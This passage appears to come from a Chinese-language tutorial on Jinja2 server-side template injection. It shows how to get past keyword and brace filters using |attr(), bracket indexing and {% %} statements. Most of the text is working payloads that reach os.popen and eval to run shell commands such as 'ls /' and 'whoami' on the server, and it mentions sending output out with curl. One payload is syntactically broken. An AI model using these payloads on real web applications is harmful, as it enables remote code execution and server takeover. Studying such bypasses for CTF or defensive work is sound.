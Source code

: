 ```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}
```

等同于：

```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

#### 利用中括号[ ]绕过

如下示例：

```python
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

等同于：

```python
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

**这样的话，那么** `**__class__**`**、**`**__bases__**` **等关键字就成了字符串，就都可以用前面所讲的关键字绕过的姿势进行绕过了。**

### 过滤了大括号 {{

我们可以用Jinja2的 {%...%} 语句装载一个循环控制语句来绕过：

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

也可以使用`{% if ... %}1{% endif %}`配合 `os.popen`和 `curl` 将执行结果外带（不外带的话无回显）出来：

```python
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls /' %}1{% endif %}
```

也可以用 {%print(......)%} 的形式来代替 {{ ，如下：

```python
{%print(''.__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read())%}
```

```python
{%print(config.__class__.__init__.__globals__['os'].popen('whoami').read())%}
```

## 利用 |attr() 来Bypass

这里说一个新东西，就是原生JinJa2函数 `attr()`，这是一个`attr()` 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（`|`）分割。如：

```python
foo|attr("bar")   等同于   foo["bar"]
```
